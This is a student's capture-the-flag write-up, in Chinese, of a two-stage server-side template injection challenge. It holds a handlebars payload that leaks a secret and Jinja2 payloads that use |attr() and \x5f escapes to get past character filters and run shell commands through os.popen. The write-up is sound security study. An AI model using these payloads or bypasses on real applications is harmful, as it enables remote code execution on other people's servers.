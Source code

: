 # HW -  Double SSTI 
###### tags: `資安` `Web`

## 題目解析
畫面進來就是一個輸入框要你做 SSTI。

![](https://i.imgur.com/6ry7b0k.png)

輸入名字就是得到簡單的輸出。

![](https://i.imgur.com/OZuY1oB.png)


## 解題流程
### First-stage
我們先檢視網頁原始碼看一下有沒有什麼線索，看到註解有寫 server source code 的 path，連進去看一下。

![](https://i.imgur.com/25VCQZS.png)

```express=
// Proxy endpoints
// Try to figure out the path!
app.use(`/2nd_stage_${secret}`, createProxyMiddleware({
    target: "http://jinja",
    changeOrigin: true,
    pathRewrite: {
        [`^/2nd_stage_${secret}`]: '',
    },
}));

app.get("/source", (_, response) => {
    response.sendFile(__filename);
});

app.get('/', (_, response) => {
    response.sendFile(__dirname + "/index.html");
});

app.get("/welcome", (request, response) => {
    const name = request.query.name ?? 'Guest';
    if (name.includes('secret')) {
        response.send("Hacker!");
        return;
    }
    const template = handlebars.compile(`<h1>Hello ${name}! SSTI me plz.</h1>`);
    response.send(template({ name, secret }));
})
```

可以看到有個 2nd_stage 的頁面，以此 server 做 proxy，所以要想辦法透過 SSTI 拿到 secret，拿到就能連進 2nd_stage 的網頁。

在 /welcome 底下可以看到 express 框架用的是 handlebars 這個 template 語言，是基於 Javascript 的，因為是沒接觸過的模板語言，所以上了 [handlebars官網](https://handlebarsjs.com/) 看了一下 Guide，其 template 引入方式是 **(\<p>{{firstname}} {{lastname}}\</p>)** 這樣，另外他還有很多 Helpers 的用法，if、each、with 等，想了解可以去上面官網看看。

而我們這邊要用到的是 **each** 這個 Helper，用法有點像 python 的 foreach，只是要想 HTML 那樣做一個 tag 把內容包起來，透過與 this 的結合，能從當前 server 傳回的 {name, secret}，分別取出 name 跟 secret，所以把下面這樣的 template labguage 寫入輸入框送出，就可以看到分別印出的 name 跟 secret 了。

:::info
{{#each this}}{{this}}{{/each}}
:::


![](https://i.imgur.com/Z8qNswu.png)

### Second-stage
有了 secret 我們就知道 2nd_stage 的完整 url，連進去可以看到又是一個輸入框要再做一次 SSTI，一樣我們要先確認 template language 是哪個，從第一個 source code 的 createProxyMiddleware 可以看倒是導到 jinja 的模板引擎。
```
https://double-ssti.chal.h4ck3r.quest/2nd_stage_77777me0w_me0w_s3cr3t77777
```

![](https://i.imgur.com/od8aZyC.png)

jinja上課就有教過了，不過稍微試了一下他其實有擋一些特殊字元，"\["、"\]"、"\."、"\_\_" 都被擋掉了，因此沒法像 LAB 那麼簡單可以透過對上級 object class 取 subclass 找到 os 模組做指令操作，主要是因為 \[132\] 會被擋掉，其他部分倒是都可以做一些轉換繞過

:::danger
{{().\_\_class__.\_\_base__.\_\_subclasses__()[132].\_\_init__.\_\_globals\_\_['popen']('cd /; ls').read()}}
:::

Google 大神了一下發現 magic method 的呼叫可以用 jinja 特殊的 filter 繞過，在 "{{ }}" 裡利用 |attr() 來呼叫前一 object 的屬性值，"\_\_" 也利用 "\x5f" 替代，無法用 "\[\]"，我們就從 request 下手，一樣一層層進去想辦法找到 os 模組，就能用os.popen().read()來做到 RCE。

```python=
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cd /; cat y000_i_am_za_fl4g')|attr('read')()}}
```
## FLAG 截圖
![](https://i.imgur.com/AOZB1TP.png)
